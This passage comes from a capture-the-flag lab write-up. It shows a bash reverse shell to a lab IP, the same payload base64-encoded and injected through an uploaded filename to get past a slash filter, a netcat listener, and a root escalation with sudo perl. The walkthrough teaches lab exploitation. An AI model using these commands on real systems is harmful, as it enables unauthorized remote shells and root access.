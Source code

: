 ```bash
bash -i >& /dev/tcp/192.168.1.222/1234 0>&1 
```

But in order to execute this, we have to upload it in the place of the filename. But a filename can't contain slashes. So in order to bypass it, the payload should be encoded into base64 and uploaded. After that it should get decoded and executed.

The encoded payload: **YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMjIyLzEyMzQgMD4mMQo=**

And instead of that uname -a inside the single quotes, the payload below is placed to spawn a reverse tcp shell. 

```bash
echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMjIyLzEyMzQgMD4mMQo= | base64 -d | bash
```

So the name of the file will be:

![file](12.png)

Before uploading the file, a [netcat](https://www.geeksforgeeks.org/netcat-basic-usage-and-overview/) listener is started on port 1234 as mentioned in the payload. And then the file is uploaded which will spawn a reverse shell.

![rev](13.png)

## Privilege Escalation

Then the sudo permissions is checked using the command 'sudo -l'

![sudo](14.png)

This shows that the perl commands can be run as root. So when it is used to create a shell with sudo command, a root shell will be spawned.

So for spawning a bash shell with perl the command below is used:

```bash
sudo /usr/bin/perl -e 'exec "/bin/bash";'
```

![root](15.png)

Finally, root shell is spawned. And the flag is found which is present in the /root directory. 

The challenge is now complete!!

